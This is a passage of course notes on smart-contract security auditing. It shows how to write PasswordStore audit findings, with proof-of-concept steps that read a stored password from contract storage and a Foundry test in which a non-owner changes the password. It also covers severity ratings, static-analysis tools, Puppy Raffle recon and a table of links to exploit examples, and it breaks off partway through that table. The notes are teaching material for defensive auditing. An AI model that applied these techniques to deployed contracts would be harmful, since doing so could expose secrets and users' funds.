```
make anvil
```

2.Deploy the contract to the chain

```
make deploy
```

3.Run the storage tool

We use `1` because that's the storage slot of `s_password` in the contract.

```
cast storage <ADDRESS_HERE> 1 --rpc-url http://127.0.0.1:8545
```

You'll get an output that looks like this:

```
0x6d7950617373776f726400000000000000000000000000000000000000000014
```

You can then parse that hex to a string with:


```
cast parse-bytes32-string 0x6d7950617373776f726400000000000000000000000000000000000000000014
```

And get an output of:

```
myPassword
```

Recommended Mitigation:
~~~

### Writing an Amazing Finding: Recommended Mitigation

~~~markdown
### [S-#] Storing the password on-chain makes it visible to anyone and no longer private 

**Description:** All data stored on chain is public and visible to anyone. The `PasswordStore::s_password` variable is intended to be hidden and only accessible by the owner through the `PasswordStore::getPassword` function.

I show one such method of reading any data off chain below.

**Impact:** Anyone is able to read the private password, severely breaking the functionality of the protocol.

**Proof of Concept:** The below test case shows how anyone could read the password directly from the blockchain. 

We use foundry's cast tool to read directly from the storage of the contract, without being the owner.

1.Create a locally running chain

```
make anvil
```

2.Deploy the contract to the chain

```
make deploy
```

3.Run the storage tool

We use `1` because that's the storage slot of `s_password` in the contract.

```
cast storage <ADDRESS_HERE> 1 --rpc-url http://127.0.0.1:8545
```

You'll get an output that looks like this:

```
0x6d7950617373776f726400000000000000000000000000000000000000000014
```

You can then parse that hex to a string with:


```
cast parse-bytes32-string 0x6d7950617373776f726400000000000000000000000000000000000000000014
```

And get an output of:

```
myPassword
```

**Recommended Mitigation:** Due to this, the overall architecture of the contract should be rethought. One could encrypt the password off-chain, and then store the encrypted password on-chain. This would require the user to remember another password off-chain to decrypt the stored password. However, you're also likely want to remove the view function as you wouldn't want the user to accidentally send a transaction with this decryption key.
~~~


## Access Control(Finding #2)

### Access Control Writeup

```markdown
### [S-#] `PasswordStore::setPassword` has no access controls, meaning a non-owner could change the password
​
**Description:** The `PasswordStore::setPassword` function is set to be an `external` function, however the purpose of the smart contract and function's natspec indicate that `This function allows only the owner to set a new password.`
​
'''
function setPassword(string memory newPassword) external {
    // @Audit - There are no Access Controls.
    s_password = newPassword;
    emit SetNewPassword();
}
'''
​
**Impact:** Anyone can set/change the stored password, severely breaking the contract's intended functionality
​
**Proof of Concept:**
​
**Recommended Mitigation:**
```

### Missing Access Controls Proof of Code

~~~markdown
### [S-#] `PasswordStore::setPassword` has no access controls, meaning a non-owner could change the password
​
**Description:** The `PasswordStore::setPassword` function is set to be an `external` function, however the purpose of the smart contract and function's natspec indicate that `This function allows only the owner to set a new password.`
​
```
function setPassword(string memory newPassword) external {
    // @Audit - There are no Access Controls.
    s_password = newPassword;
    emit SetNewPassword();
}
```
​
**Impact:** Anyone can set/change the stored password, severely breaking the contract's intended functionality
​
**Proof of Concept:** Add the following to the PasswordStore.t.sol test file:
​

```
function test_anyone_can_set_password(address randomAddress) public {
       vm.assume(randomAddress != owner);
       vm.startPrank(randomAddress);
       string memory expectedPassword = "myNewPassword";
       passwordStore.setPassword(expectedPassword);
​
       vm.startPrank(owner);
       string memory actualPassword = passwordStore.>getPassword();
       assertEq(actualPassword, expectedPassword);
   }
```

​
**Recommended Mitigation:** Add an access control conditional to `PasswordStore::setPassword`.
​
```
if(msg.sender != s_owner){
    revert PasswordStore__NotOwner();
}
```

~~~

## Finding Writeup Docs(Finding #3)

~~~markdown
### [S-#] The `PasswordStore::getPassword` natspec indicates a parameter that doesn't exist, causing the natspec to be incorrect.
​
**Description:**

```
/*
   * @notice This allows only the owner to retrieve the password.
@> * @param newPassword The new password to set.
*/
function getPassword() external view returns (string memory) {}
```
    
The `PasswordStore::getPassword` function signature is `getPassword()` while the natspec says it should be `getPassword(string)`.


**Impact:** The natspec is incorrect
​
**Recommended Mitigation:** Remove the incorrect natspec line.
​
```diff
    /*
+     * @notice This allows only the owner to retrieve the password.
-     * @param newPassword The new password to set.
     */
```
~~~

## Severity Rating

reference: https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity

#### How to evaluate a finding severity

The severity of a finding can be categorized as **High**, **Medium**, or **Low** and is determined based on several factors:

1. **Impact on the protocol:** How severe would the potential damage be if the vulnerability were exploited
2. **Likelihood of exploitation:** How probable would an attacker exploit this vulnerability?
3. **Degree of judge/protocol subjectivity**

**Severity Matrix**

|                |            | **Impact** |            |         |
| -------------- | ---------- | ---------- | ---------- | ------- |
|                |            | **High**   | **Medium** | **Low** |
|                | **High**   | H          | H/M        | M       |
| **Likelihood** | **Medium** | H/M        | M          | M/L     |
|                | **Low**    | M          | M/L        | L       |

⚠️ **Subjectivity in Classification**

While the Impact vs Likelihood matrix provides a structured approach, there remains a degree of subjectivity in classifying findings. The judge's discretion is pivotal in determining a finding's category.

If the protocol under audit stipulates particular criteria, then those guidelines should be the benchmark for classifying findings.

---

#### How to evaluate the impact of a finding

Impact refers to the potential harm or consequence to the users or the protocol due to the vulnerability.

• **High Impact:**
  ○ Funds are directly or nearly directly at risk.
  ○ There's a severe disruption of protocol functionality or availability.

• **Medium Impact:**
  ○ Funds are indirectly at risk.
  ○ There's some level of disruption to the protocol's functionality or availability.

• **Low Impact:**
  ○ Funds are not at risk.
  ○ However, a function might be incorrect, the state might not be handled appropriately, etc.

---

#### How to evaluate the likelihood of exploitation of a finding

Likelihood represents the probability of the impact occurring due to the vulnerability.

▽ **High likelihood**

It's highly probable to happen. For instance, a hacker can call a function directly and extract money.

▽ **Medium likelihood**

It might occur under specific conditions. For example, a peculiar ERC20 token is used on the platform.

▽ **Low likelihood**

It is unlikely to occur. An example might be if a hard-to-change variable is set to a unique value on a specific block.

**Note** There are instances where the likelihood is deemed "computationally infeasible". For example, "An attacker could guess the user's private key". 

The author must demonstrate that their finding is computationally feasible in such scenarios.


#### Informational/Non-Crits/Gas Severity

Anything that isn't a bug, but maybe should be considered anyway to make the code more readable etc - `Informational Severity` (sometimes called 'non-crits') There are also `Gas` severity findings, pertaining to gas optimizations, but we'll go over some of those a little later on.


## Generate a PDF audit report

1. Add all your findings to a markdown file like `report-example.md`
   1. Add the metadata you see at the top of that file
2. Install [pandoc](https://pandoc.org/installing.html) & [LaTeX](https://www.latex-project.org/get/)
   1. You might also have to install [one more package](https://github.com/Wandmalfarbe/pandoc-latex-template/issues/141) if you get `File 'footnotebackref.sty' not found.`
3. Download `eisvogel.latex` and add to your templates directory (should be `~/.pandoc/templates/`)
4. Add your logo to the directory as a pdf named `logo.pdf`
5. Run this command:

```
pandoc report-example.md -o report.pdf --from markdown --template=eisvogel --listings
```

## Isolated Dev Environments

According to Chain Analysis, in 2024 the most popular type of attack was a private key leak. In this lesson we want to introduce to how to mitigate the risks of running malicious code on our host machine. This is important for any level of developer or security researcher.

We will take a look at ways to protect our host machine against different attack vectors which all have one thing in common, running unvetted code on our host machine and giving it access to everything.

The tool we are going to use to isolate the unvetted code is Docker containers or Dev containers, specifically Dev containers built directly into VS Code. The Red Guild has written an awesome blog on it which is linked in the description.


# Puppy Raffle

## Scoping

By using the command `git checkout <commitHash>` we can assure our local repo is the correct version to be auditing.

We also see exactly which contracts are under review.

```
./src/
└── PuppyRaffle.sol
```

Moving on, we should take notice of the **Compatibilities** section.


That Solc version is strange - definitely make note of it.

Finally, they've also outlined the Roles of the protocol for us. Knowing this intended functionality is important in being able to spot when things go wrong.


## Tooling

### Static Analysis - Boosting Your Auditing Efficiency


Static analysis is a method where code is checked for potential issues without actually executing it. Essentially, it's a way to "debug" your code by looking for specific keywords in a certain order or pattern.

The most widely used tools for this purpose include [**Slither**](https://github.com/crytic/slither), developed by the [**Trail of Bits**](https://www.trailofbits.com/) team, and a Rust-based tool that we've developed known as [**Aderyn**](https://github.com/Cyfrin/aderyn).

> **Note**: It's important to remember that these tools should be run before going for an audit.

### Slither - A Python-Powered Static Analysis Tool

Slither tops the charts as the most popular and potentially the most potent static analysis tool available. Built using Python, it offers compatibility with both Solidity and Vyper developments. An open-source project, Slither allows developers to add plugins via PR.

The Slither repo provides instructions on installation and usage.

I want to bring your attention to the [**Detectors**](https://github.com/crytic/slither/wiki/Detector-Documentation) section of the documentation.

This document lists *all* the vulnerabilities that Slither is checking for and recommendations for them.

For example:


This could have helped us with PasswordStore! It's easy to see how valuable these tools can be in making our work easier and more efficient.

#### Running Slither

The Slither documentation outlines usage for us. Slither will automatically detect if the project is a Hardhat, Foundry, Dapp or Brownie framework and compile things accordingly.

In order to run slither on our current repo we just use the command:

```
slither .
```

This execution may take some time, depending on the size of the codebase. If we run it on Puppy Raffle, we're going to get a *massive* output of potential issues.

The output color codes potential issues:

- **Green** - Areas that are probably ok, may be `informational` findings, we may want to have a look
- **Yellow** - Potential issue detected, we should probably take a closer look
- **Red** - Significant issues detected that should absolutely be addressed.

Here's an example of what some of these look like:


### Aderyn-A Rust Based Static Analysis Tool

The second powerful tool we'll be using in this course is a Rust-based analyzer, [**Aderyn**](https://github.com/Cyfrin/aderyn). This tool was created by the smart contract developer legend [**Alex Roan**](https://github.com/alexroan).


#### Running Aderyn

To run Aderyn, the command is `Aderyn [OPTIONS] <root>`. Since we're already in the root directory of our project, we can just run:

```
aderyn .
```

Running this command will compile our contracts, our terminal will display the usual compilation warnings - at the bottom of the output however, we can see *`Detectors run, printing report. Report printed to ./report.md`*

We should see this fine in our IDE explorer. If we open it up...

### Solidity Metrics Insights


### Solidity Visual Developer


## Recon(Reconnaissance) 1

### Reading Docs

Ok, we've scoped things out. Let's start with step 1 of `The Tincho` - Reading the documentation.

What we've been provided is a little sparse - but read through the README of [**Puppy Raffle**](https://github.com/Cyfrin/4-puppy-raffle-audit).

### Reading the Code

What I like to do when first assessing a codebase is to start at the `main entry point`. Sometimes this area of a protocol may be a little unclear, but using Solidity: Metrics can help us out a lot.


Pay special attention to the functions marked `public` or `external`. Especially those which `modify state` or are `payable`. These are going to be certain potential attack vectors.

> **Note:** In Foundry you can use the command `forge inspect PuppyRaffle methods` to receive an output of methods for the contract.

```solidity
/// @notice this is how players enter the raffle
/// @notice they have to pay the entrance fee * the number of players
/// @notice duplicate entrants are not allowed
/// @param newPlayers the list of players to enter the raffle
function enterRaffle(address[] memory newPlayers) public payable {
    require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
    for (uint256 i = 0; i < newPlayers.length; i++) {
        players.push(newPlayers[i]);
    }
​
    // Check for duplicates
    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
    emit RaffleEnter(newPlayers);
}
```

Starting with the `NatSpec` we may have a few questions rise.

- *What's meant by # of players?*
- *How does the function prevent duplicate entrants?*

Write questions like these in your `notes.md` or even as `@audit` notes inline. These are things we'll want to answer as we progress through the code.

One thing I notice in our next few lines is - I don't really love their naming conventions. `entranceFee` is immutable and nothing in this function makes that clear to me (unless I'm using [**Solidity Visual Developer**](https://marketplace.visualstudio.com/items?itemName=tintinweb.solidity-visual-auditor)).

### Reading Docs II

A few additional details we notice as we traverse the function:

- Our require statement compares to `newPlayers.length` - *what happens if this is 0?*
- The `entranceFee` is an `immutable variable` - we can confirm this is initialized in the constructor.
- The raffle is keeping track of who has entered the raffle by pushing each index of `newPlayers[]` to `players[]`.

The last section of this function is finally our check for duplicates.

```solidity
// Check for duplicates
for (uint256 i = 0; i < players.length - 1; i++) {
    for (uint256 j = i + 1; j < players.length; j++) {
        require(players[i] != players[j], "PuppyRaffle: Duplicate player");
    }
}
```

With experience you'll be able to *smell* bugs. You'll see messy blocks of code like the above and your intuition is going to kick in.


## Exploit 1

### sc-exploits-minimized

In order to get a better understanding of this bug, let's look at a *minimized* example of it. If you reference the [**sc-exploits-minimized**](https://github.com/Cyfrin/sc-exploits-minimized) repo.


This is an amazing resource to test your skills in general and familiarize yourself with common exploits. Additionally, the `src` folder of `sc-exploits-minimized` contains minimalistic examples of a variety of vulnerabilities as well.

#### Remix, CTFs, & Challenge Examples

A set of examples where you can see the attack in remix or practice it in a gameified way. 

- The `Remix` links will bring you to a minimal example of the exploit.
- The `Ethernaut` links will bring you to a challenge where that exploit exists in a "capture the flag". 
- The `Damn Vulnerable DeFi` links will bring you to a challenge where that exploit exists in a difficult DeFi/OnChain Finance related "capture the flag". 


<table border="1" style="border-collapse: collapse;">
    <thead>
        <tr>
            <th>Exploit</th>
            <th>Remix 🎧</th>
            <th>Ethernaut 👩🏻‍🚀</th>
            <th>Damn Vulnerable DeFi 💰</th>
            <th>Case Studies 🔎</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>Reentrancy</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/reentrancy/Reentrancy.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/10" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Re-entrancy</a>
            </td>
            <td>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/side-entrance/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Side Entrance</a>
            </td>
            <td>
            <a href="https://github.com/pcaversaccio/reentrancy-attacks" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">The Ultimate List </a>
            </td>
        </tr>
        <tr>
            <td>Arithmetic</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/arithmetic/OverflowAndUnderflow.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/5" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Token</a>
            </td>
            <td>
            None
            </td>
            <td>
            Coming Soon...
            </td>
        </tr>
        <tr>
            <td>Denial Of Service (DoS)</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/denial-of-service/DoS.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/20" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Denial</a>
            </td>
            <td>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/unstoppable/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Unstoppable</a>
            </td>
            <td>
            Coming Soon...
            </td>
        </tr>
        <tr>
            <td>Mishandling Of Eth</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/mishandling-of-eth/MishandlingOfEth.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix (Not using push over pull)</a>
            </br>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/mishandling-of-eth/SelfDestructMe.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix (Vulnerable to selfdestruct)</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/9" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">King</a>
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://samczsun.com/two-rights-might-make-a-wrong/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Sushi Swap</a>
            </td>
        </tr>
        <tr>
            <td>Weak Randomness</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/weak-randomness/WeakRandomness.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/3" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Coin Flip</a>
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://forum.openzeppelin.com/t/understanding-the-meebits-exploit/8281" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Meebits</a>
            </td>
        </tr>
        <tr>
            <td>Missing Access Controls</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/missing-access-controls/MissingAccessControls.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/2" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Fallout</a>
            </td>
            <td>
            None
            </td>
            <td>
            Coming Soon...
            </td>
        </tr>
        <tr>
            <td>Centralization</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/centralization/Centralization.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/compromised/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Compromised</a>
            </td>
            <td>
            <a href="https://medium.com/@observer1/uk-court-ordered-oasis-to-exploit-own-security-flaw-to-recover-120k-weth-stolen-in-wormhole-hack-fcadc439ca9d" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Oasis</a>
            And every rug pull ever.
            </td>
        </tr>
        <tr>
            <td>Failure to initialize</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/failure-to-initialize/FailureToInitialize.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/25 " target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Motorbike</a>
            </td>
            <td>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/wallet-mining/ " target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Wallet Mining</a>
            </td>
            <td>
            <a href="https://github.com/openethereum/parity-ethereum/issues/6995 " target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Parity Wallet</a>
            </td>
        </tr>
        <tr>
            <td>Storage Collision</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/storage-collision/StorageCollision.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/16" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Preservation</a>
            </td>
            <td>
            None
            </td>
            <td>
            Coming Soon...
            </td>
        </tr>
        <tr>
            <td>Oracle/Price Manipulation</td>
            <td>
            (Click all of these)
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/oracle-manipulation/OracleManipulation.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">OracleManipulation.sol</a>
            </br>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/oracle-manipulation/BadExchange.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">BadExchange.sol</a>
            </br>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/oracle-manipulation/FlashLoaner.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">FlashLoaner.sol</a>
            </br>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/oracle-manipulation/IFlashLoanReceiver.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">IFlashLoanReceiver.sol</a>
            </td>
            <td>
            <a href="https://ethernaut.openzeppelin.com/level/23" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Dex 2</a>
            </td>
            <td>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/puppet/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Puppet</a>
            </br>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/puppet-v2/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Puppet V2</a>
            </br>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/puppet-v3/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Puppet V3</a>
            </br>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/the-rewarder/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">The Rewarder</a>
            </br>
            <a href="https://www.damnvulnerabledefi.xyz/challenges/selfie/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Selfie</a>
            </td>
            <td>
            <a href="https://rekt.news/cream-rekt-2/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Cream Finance</a>
            </td>
        </tr>
        <tr>
            <td>Signature Replay</td>
            <td>
            <a href="https://remix.ethereum.org/#url=https://github.com/Cyfrin/sc-exploits-minimized/blob/main/src/signature-replay/SignatureReplay.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.20+commit.a1b79de6.js" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Remix</a>
            </td>
            <td>
            N/A
            </td>
            <td>
            Coming soon...
            </td>
            <td>
            Coming soon...
            </td>
        </tr>
        <tr>
            <td>Opcode Support/EVM Compatibility</td>
            <td>
            Coming Soon...
            </td>
            <td>
            None
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://medium.com/coinmonks/gemstoneido-contract-stuck-with-921-eth-an-analysis-of-why-transfer-does-not-work-on-zksync-era-d5a01807227d" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">zkSync/GEM</a>
            </td>
        </tr>
        <tr>
            <td>Governance Attack</td>
            <td>
            Coming Soon...
            </td>
            <td>
            None
            </td>
            <td>
            None
            </td>
            <td>
            <a href="https://rekt.news/tornado-gov-rekt/" target="_blank" style="display: inline-block; padding: 10px 15px; font-size: 16px; cursor: pointer; text-align: center; text-decoration: none; outline: none; color: #fff; background-color: #4CAF50; border: none; border-radius: 15px; box-shadow: 0 5px #999;" target="_blank">Tornado Cash</a>
            </td>
        </tr>
        <tr>
            <td>Stolen Private Keys</td>
            <td>
            Coming Soon...
            </td>
            <td>
